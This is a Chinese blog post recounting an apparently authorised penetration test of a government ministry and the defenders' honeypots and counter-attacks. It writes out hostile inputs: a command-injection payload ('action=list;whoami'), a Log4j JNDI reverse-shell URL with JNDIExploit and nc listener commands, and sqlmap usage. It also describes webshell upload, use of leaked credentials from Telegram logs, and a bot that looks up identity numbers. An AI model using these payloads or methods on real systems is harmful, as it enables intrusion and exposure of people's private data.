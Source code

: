 ```yaml
---
title: 记一次对某部委的渗透测试
published: 2025-03-10
description: ''
image: 'https://tse3-mm.cn.bing.net/th/id/OIP-C.W-oppI6wXTHjwzyCanibogHaEj?w=315&h=194&c=7&r=0&o=5&dpr=1.3&pid=1.7'
tags: [WEB,网络安全]
category: '网络安全'
draft: false 
lang: ''
---
```


这周接到上面的通知去给某政府单位进行资产梳理和渗透测试，这个单位的安服非常有实力，曾经成功抵御了某带编号的境外apt组织的攻击并给出溯源报告。一开始领导让我去搞这个项目的时候我是很抵触的，毕竟aptxx都打不穿的单位你让我去是不是有点太幽默。转念一想，有机会见识一下顶尖蓝队和企业安全策略也没啥不好的。我就不信邪了看看这怎么个事——当然最后结果也是不出所料的被反清得裤衩都不剩了。以下是整个测试过程的一些印象比较深刻的片段。本文发布已经过目标单位的授权，涉及到的信息图片等均厚码处理，文章内容仅供技术交流使用

![](记一次对某部委的渗透测试/image-20250125234924093.png)

1.前期按部就班做了一些针对性的资产梳理和收集工作，备案反查，子域，ip网段资产，js采集。很快就在某子域下发现一个?str=传参的命令执行漏洞，用最简单的${IFS}就可以绕过过滤执行命令，并且有回显。这个蜜罐还是很明显的，首先洞太突兀了，一级子域下边留这么一个脑残的命令执行到现在还不修我是不信的。第二个，这个str参数在这里没有任何意义，正常用户点击这个web地址的时候用不到，他也实现不了任何业务功能。最后f12看一下页面加载了很多第三方js文件，这也是罐子的一大特征，遂马上跑路，没有中招 

2.利用酷酷习题大法，在tg泄露的几百万行日志.txt中找到了此部委某处资产的账号密码，成功登录

![](记一次对某部委的渗透测试/image-20250125234943243.png)

看起来系统似乎还是挺老的，没有waf，先尝试寻找sql注入，挨个点击可能和数据库交互的页面功能区域，把burp里请求流量全部保存联动sqlmap -r risk=5 level=3开跑，无果，尝试手注依然无果。想要进行后台文件上传，然后发现根本就没有上传点，屋檐了  
继续测试，找到鉴权的api接口，在/api/v2/auth/checkUser/usrid.php 这里，如图，想要垂直越权一下获取管理员权限

![](记一次对某部委的渗透测试/image-20250125235002962.png)

猜测管理员用户名就是admin，passwordComplex参数只要输对了验证码就是0，不用管。temp和最重要的加密的那个_Monster到底是啥玩意，(我真没见过谁家鉴权参数叫这个名字的)，怎么生成的，实在想不明白。想翻阅js看看在前端有无相关的参数的接口，加密了，本人js逆向就是一坨，就在想放弃找越权的时候网站出现了卡顿，这个代码也挺神经的，如果src获取图床url的时候没有成功，会在返回里显示“出现xxx故障错误代码xxx请联系xxxx(软件开发商联系方式)”，6。然后交给社工哥顺利的找到了此套软件的源码

![](596bbbfb3bdb33fca0ceb2a1ff2f7e00.png)

审计鉴权代码发现其实是用一个默认密钥+时间戳+用户名的方式生成了那个_Monster参数，temp参数和越权没关系，系统管理员和普通用户都是一样的，成功通过接口修改_Monster和id的值以admin身份登录入系统

![](记一次对某部委的渗透测试/image-20250125235050598.png)

管理员后台的功能就比较多了，有上传点，而且谢天谢地没有任何对文件后缀的检验，就是上传过后不会回显路径。这个问题不大因为源码都搞到手了，看源码$uploadPath就行。然后就是XG拟态生成器生成免杀webshell上传连接后接管服务器，哥斯拉插件绕过disable_fouction丝滑小连招

![](记一次对某部委的渗透测试/image-20250125235058874.png)

后续通过shell上线c2的时候渗透内网的内容因保密需要无法透露。这个资产打到的只是该部委的一处边缘网段，内网机器虽然挺多但是并非核心生产环境，也没有敏感资料。然而这基本上就是我的全部成绩了，后续就是蓝队高手四擒年某的故事  
  
3.扫到主域名下某路径back.zip内容，一打开看居然是网站源码，各个路径都能对上。审计源码内容，这个info.php的漏洞点代码如下

![](记一次对某部委的渗透测试/image-20250125235109497.png)

有个filter_var()的函数进行过滤，白名单预定义了用户操作，FILTER_SANITIZE_STRING是 PHP 中的一个过滤器，清洗用户字符串输入的 HTML 标签和特殊字符来防止xss，但是这俩过滤都是平时ctf里绕过烂了的东西，/info.php?action=list;whoami 直接命令执行。当时我愣了一下，这个据说抵御过aptxx组织攻击的单位这么简单就搞到主站rce了？转念一想也不是不可能，apt组织写各种免杀和加载器厉害，打突破都是靠钓鱼，我字典好正好扫到.zip直接白盒秒了，遂传参狠狠的写入shell，疑似有宝塔文件锁一类的东西文件无法落地，就执行命令nc反弹了一下到我vps上  

后来我才知道这堆byd安服大玉想象力之丰富，那个back.zip就是他们故意放到服务器上的，压缩包里info.php的内容也是故意这么写的，实际上真正的info.php根本不长这样，传参管道符或者分号的时候后端跟进的代码不是shell_exec()，而是一个他们自研的蜜罐接口，就看哪个冤种发送action=list;，直接标红ip然后态感设备一顿响，我后续执行的所有操作几个值班的蓝队哥看得一清二楚。nc反弹的时候vps地址也漏了。溯到ip一波反清各类c2框架的端口，cs的50050和viper的60000。正好我是超级懒人，接收反弹shell，漏扫，cs和viper和daybreak和灯塔都部署在这台机器上面，而且全都是弱口令，蓝队哥用day或者爆破，拿到了我viper的账号密码，并且不知道通过什么手段经过viper的后台直接拿到了我服务器的ssh账号密码？我ssh连服务器的时候没挂代理，人家在服务器上翻一下登录日志，酒店公网ip遂暴露 

4.具体过程无法透露，通过某设备0day拿到生产环境数据库账号密码，刚刚连上就触发了数据库日志审计秒掐端口禁止外连，最后的危害就是截了张图大概知道了他有哪几个表，数据一点都没能泄露，没脾气。只能安慰自己拔线拔得这么快起码证明没踩到罐子

![](记一次对某部委的渗透测试/image-20250125235140892.png)

 5.整理资产看到某公网oa系统，正好前段时间审了这个oa的sql注入0day，发送poc

![](记一次对某部委的渗透测试/image-20250125235148977.png)

![](记一次对某部委的渗透测试/image-20250125235152348.png)

6.扫到了公网上部署的nacos系统，并且工具检测出来有Hessian反序列化，拿🦶想都知道这种单位不可能傻到公网上放nacos还留着nday不修，一眼罐子，于是没有深入
测试结束过后问了一句，然后人家说这个还真特么不是罐子，只是资产归属不属于他们单位负责，气死我了

7.接下来连续的几天都一点成果没有，对着搜集到的一堆资产扫描器猛扫，连个debug的信息泄露都扫不到。挂burp手动测试功能点，测了半天也没有，源码泄露也找不到，那些个cms也都是自研的或者闭源的，手上无day可打，黑盒真的太难了。转变思路重新收集了一下资产信息拓展攻击面。终于找到了某系统存在Log4j漏洞
使用工具JNDI-Injection-Exploit，直接
`java -jar JNDIExploit.jar -l 8888 -p 6666 -i 本机ip` 

然后`nc -lvvp 10001`开启监听  浏览器打开url访问
http://xxxx.xxxx/solr/admin/cores?action=${jndi:ldap://xxxxx:8888/Basic/ReverseShell/xxxxxx/10001
但是vps上一直收不到shell，有补丁吗？查了一下官方commit里对于Log4j漏洞的修改意见，一个是限制LDAP和RMI的访问类，还有就是
https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3
里边，对于lookup方法的修改，你想要new URI(name)处报错但是name又得被jndi正常识别，这里就只能用marshalsec方法反弹shell了，因为marshalsec构造LADP服务的时候不走那个handle URL的语句块，不会导致解析错误。

不过这种方法复现的话挺麻烦的，要自己写一个Exploit.class放到web服务上，具体步骤看
https://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ
，这里因为篇幅原因就不多说
![](6c1a39f7eb57d8b958241f3f7bbbdb70.png)

拿到shell，机器出网能直接wget下东西，无敌免杀bypass杀软顺利上线cs。这个内网比上文提到的那个重要多了，此时感觉自己非常的黑客，开始幻想自己单兵apt打穿某某部委，开心得不行

![](记一次对某部委的渗透测试/image-20250125235308704.png)

内网部分还是因为保密原因不能提，横向过程中阻力挺大，捣鼓半天一台新的机器都没横向成功。好不容易跌跌撞撞拿到了一台windows的票据，cs上线文件管理看看desktop是咋回事

![](记一次对某部委的渗透测试/image-20250125235317652.png)

在桌面文件夹发现了惊人的Powervpn.exe以及使用手册.pdf，笑嘻了。由于是exe，下载下来先看df报不报毒，df和卡巴都不报毒，丢沙箱看一下，有异常行为，但多半是误报(云沙箱经常犯病) ，感觉文件安全没问题，遂大胆运行  
后来知道这堆蓝队哥居然在内网每台办公机器的桌面都放了钓鱼vpn.exe，无敌了，他也不怕自家员工给他一顿点。并且免杀df火绒360晶核卡巴，甚至反虚拟机，vm运行弹窗提示必须物理机运行(我这种莽夫直接本机右键了，人家白多花了这么个心思)。你自己边界突破进去横向拿到的权限，在这台机器上下的文件，杀软也不报毒，这谁特么能想到是个马子。于是我那台破笔记本也被蓝队控制，然后电脑桌面文件夹里就有简历.doc

总结：花了差不多十天的渗透时间，就只拿下该部委webshell两个，其中一个为gov域名；边缘办公系统内网机器xx台，数据库半个(连上没三分钟就应急了，一条数据没看到，所以算半个)。然后被溯源到攻击服务器一台，通过反制手段拿到部署在上面的viper和cs的账号密码，以及服务器ssh账号密码。被钓鱼导致用于攻击的笔记本被蓝队上线。暴露了酒店公网ip地址，人家只是尊重我的隐私没用蓝队神秘小工具翻我设备而已，不然消费记录结合公网ip地理位置画像一下就知道我酒店门牌号是哪个了。通过笔记本桌面文件里的简历.doc获得了我的姓名手机号qq号和大头照，使用纸飞机酷酷bot轻松反查到身份证号。最后捕获到没利用成功的某oa前台sql注入一个。一句话概括，东西没打到几个底裤漏完，算了一下rating估计在0.4到0.5之间，大败而归

最后交流的时候和人家聊了一下才知道这几个蓝队哥里边有之前大厂实验室的渗透岗，意料之中，只有做过攻击队的老油条才能想出往back.zip里边塞假源码骗人进罐子这样的狠活。一方面人家太懂红队的心理了，完美预判了常见渗透流程中的每一件事情，非常合理且巧妙的在这些过程中给你挖坑。另一方面硬实力也没得说，那个监控特定参数并且能够高交互回显的蜜罐接口是人家自研的产品，自己手搓代码写出来的；绕过各路杀软的钓鱼exe也是人家自己做的免杀(今六月份的做的到现在依然能够bypass各大杀软)，以及通过viper后台拿到服务器ssh权限，这个我至今不知道他们是咋做到的。国护的时候我也拆过那些四蹲五蹲的黑店靶标，都是还没毕业的大学生，技能也只有很被动的封c段加拔线，被打穿了就在裁判那里嘴遁机关枪死不承认。但是这次某部委原厂的安全团队真是打得我没脾气，人家确实是把蓝队和企业安全这块玩明白了。现在网安方面很多文章以及研究都把重点放在了攻击的各种姿势上，往往忽略了防御其实也是一门艺术，能整出很多花样的，不仅仅只有刻板印象里龟缩起来的各种封。这次演练完了也是老老实实认识到了和行业内顶尖高手的差距，之前娱乐圈炸鱼那是心高气傲，现在发现到了高手过招的这个层次自己被别人当鱼炸了，还是得继续多看文章多学习
